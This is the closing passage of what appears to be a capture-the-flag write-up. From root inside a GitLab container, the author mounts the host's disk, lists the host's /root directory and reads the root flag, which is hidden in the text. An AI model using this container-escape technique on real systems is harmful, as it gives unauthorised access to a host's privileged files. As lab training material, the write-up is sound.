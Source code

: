 We simply create an empty folder and mount the filesystem to it. Let's try:

```text
root@gitlab:/var/opt/gitlab/gitlab-rails/working# cd /tmp
root@gitlab:/tmp# mkdir pencer
root@gitlab:/tmp# mount /dev/sda2 /tmp/pencer
root@gitlab:/tmp# cd pencer
root@gitlab:/tmp/pencer# ls -lsa
 4 drwxr-xr-x  20 root root  4096 Dec  7 17:44 .
 4 drwxrwxrwt   1 root root  4096 May 11 20:54 ..
 0 lrwxrwxrwx   1 root root     7 Apr 23  2020 bin -> usr/bin
 4 drwxr-xr-x   3 root root  4096 Jul  3  2020 boot
 4 drwxr-xr-x   2 root root  4096 May  7  2020 cdrom
 4 drwxr-xr-x   5 root root  4096 Dec  4 15:20 dev
 4 drwxr-xr-x 101 root root  4096 Feb 11 14:31 etc
 4 drwxr-xr-x   3 root root  4096 Jul  7  2020 home
16 drwx------   2 root root 16384 May  7  2020 lost+found
 4 drwxr-xr-x   2 root root  4096 Apr 23  2020 media
 4 drwxr-xr-x   2 root root  4096 Apr 23  2020 mnt
 4 drwxr-xr-x   3 root root  4096 Jun 15  2020 opt
 4 drwxr-xr-x   2 root root  4096 Apr 15  2020 proc
 4 drwx------  10 root root  4096 Dec  7 17:02 root
 4 drwxr-xr-x  10 root root  4096 Apr 23  2020 run
 0 lrwxrwxrwx   1 root root     8 Apr 23  2020 sbin -> usr/sbin
 4 drwxr-xr-x   6 root root  4096 May  7  2020 snap
 4 drwxr-xr-x   2 root root  4096 Apr 23  2020 srv
 4 drwxr-xr-x   2 root root  4096 Apr 15  2020 sys
12 drwxrwxrwt  12 root root 12288 May 11 20:55 tmp
 4 drwxr-xr-x  14 root root  4096 Apr 23  2020 usr
 4 drwxr-xr-x  14 root root  4096 Dec  4 15:20 var
```

We can see the underlying file system is mounted in my folder. Let's look in the root folder:

```text
root@gitlab:/tmp/pencer# ls -lsa root/
4 drwx------ 10 root root 4096 Dec  7 17:02 .
4 drwxr-xr-x 20 root root 4096 Dec  7 17:44 ..
0 lrwxrwxrwx  1 root root    9 Jul 11  2020 .bash_history -> /dev/null
4 -rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
4 drwx------  2 root root 4096 May  7  2020 .cache
4 drwx------  3 root root 4096 Jul 11  2020 .config
4 -rw-r--r--  1 root root   44 Jul  8  2020 .gitconfig
4 drwxr-xr-x  3 root root 4096 May  7  2020 .local
0 lrwxrwxrwx  1 root root    9 Dec  7 17:02 .mysql_history -> /dev/null
4 -rw-r--r--  1 root root  161 Dec  5  2019 .profile
4 -rw-r--r--  1 root root   75 Jul 12  2020 .selected_editor
4 drwx------  2 root root 4096 Dec  7 16:49 .ssh
4 drwxr-xr-x  2 root root 4096 Dec  1 12:28 .vim
0 lrwxrwxrwx  1 root root    9 Dec  7 17:02 .viminfo -> /dev/null
4 drwxr-xr-x  3 root root 4096 Dec  1 12:41 docker-gitlab
4 drwxr-xr-x 10 root root 4096 Jul  9  2020 ready-channel
4 -r--------  1 root root   33 Jul  8  2020 root.txt
4 drwxr-xr-x  3 root root 4096 May 18  2020 snap
```

At last we see the root flag. Let's grab it and we've made it to the end:

```text
root@gitlab:/tmp/pencer# cat root/root.txt
<HIDDEN>
```

All done. See you next time.
